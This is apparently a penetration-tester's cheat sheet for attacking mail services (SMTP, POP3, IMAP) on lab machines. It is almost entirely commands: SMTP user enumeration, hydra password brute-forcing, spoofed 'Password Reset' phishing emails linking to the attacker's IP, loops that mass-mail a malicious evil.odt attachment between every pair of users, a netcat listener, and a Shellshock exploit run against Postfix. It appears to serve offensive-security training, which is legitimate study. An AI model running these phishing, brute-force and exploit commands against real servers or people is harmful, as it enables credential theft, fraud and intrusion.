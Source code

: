 # Mail - SMTP 25 465 587, IMAP 143 993, POP 110 995

### First Thoughts

- Phishing
	- Windows or Linux?
	- NTLM grab, link to local server, library file, reverse shell?
	- What type of file?

- Enumeration
	- Check for valid users
	- Try valid usernames elsewhere
		- Perhaps username as their password
		- Non-person names ran through rule list for password

- Exploits
	- Haven't done in 200+ boxes so far (remotely)


#### Basic enumeration

```bash
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-* and safe" -oA smtp $RHOST

# enumerate users
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-enum-users" -oA smtp-users $RHOST

# enumerate each user
vi smtp-user.txt  # write what smtp-enum-users told
## use MODE = {EXPN, VRFY, RCPT}
smtp-user-enum -M MODE -U smtp-user.txt -D $DOMAIN -t $RHOST
````

#### Manual user enum

```bash
nc -nv $ip 25
telnet $ip 25
EHLO ALL
VRFY <USER>
```

```bash
# Scrape website
cewl http://postfish.off/team.html -m 5 -w team.txt 
# Get valid names
smtp-user-enum -U valid.txt -t postfish.offsec
smtp-user-enum -U valid.txt -t postfish.off
smtp-user-enum -U /opt/SecLists/Usernames/xato-net-10-million-usernames-dup-lowercase.txt -t walla

curl -k "imaps://$dom/INBOX;MAILINDEX=1" --user sales:sales
telnet $ip 110
USER sales
PASS sales
list

# We opened up an email saying there would be a password reset link being sent out from it
sudo nc -lvp 80
sendemail -t brian.moore@postfish.off -f it@postfish.off -s postfish.off -u "Password Reset" -o tls=no
sendemail -t root@postfish.off -f brian.moore@postfish.off -s postfish.off -u "Password Reset" -o tls=no

# Or

nc -v postfish.off 25
helo test
mail from: it@postfish.off
rcpt to: brian.moore@postfish.off
DATA

Subject: Password reset

Hi Brian,

Please follow this link to reset your password: http://192.168.45.178/

Regards,

.

QUIT
```

```bash
for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@localhost --from $name2@localhost --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do echo "sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king'" >> all-swaks.txt; done

for line in $(cat all-swaks.txt); do echo $line|bash; done

# Sometimes the base of the domain, banzai instead of banzai.local, works better
for user1 in $(cat users.txt); for user2 in $(cat users.txt); do echo "sendemail -t $user1@$dom -f $user2@$dom -s $dom -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -o tls=no"|bash; done

for user1 in $(cat valid.txt); for user2 in $(cat valid.txt); do echo "sendemail -t $user1@$dc -f $user2@$dc -s $dc -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -o tls=no"|bash; done
```

##### Exploits Found

SMTP PostFix Shellshock

```
https://gist.github.com/YSSVirus/0978adadbb8827b53065575bb8fbcb25
python2 shellshock.py 10.11.1.231 useradm@mail.local 192.168.119.168 139 root@mail.local #VRFY both useradm and root exist
```

## Pop 110 & 995

```bash
nmap -n -v -p $port -sV --script="pop3-* and safe" -oA pop3 $ip
```

```bash
hydra -V -f -l $user -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $ip pop3
hydra -l simon -P /usr/share/wordlists/rockyou.txt -f $ip pop3
```

```bash
openssl s_client -connect $ip:pop3s # or fqdn
```

Telnet to port 110 with valid creds to look at mailbox.

```bash
telnet $ip $port   # alternate method
user $user@$dom # or $user , see if it's a valid name
PASS $PASS
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```

```bash
telnet -l jess $ip
USER sales
PASS sales
LIST
RETR 1.
```

## IMAP 143 993

```bash
hydra -V -f -L user.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $RHOST imap
```

#### Log in

```bash
curl -k "imaps://$ip" --user $user:$pass
```

#### Connect

```bash
openssl s_client -connect $ip:imaps # or fqdn
```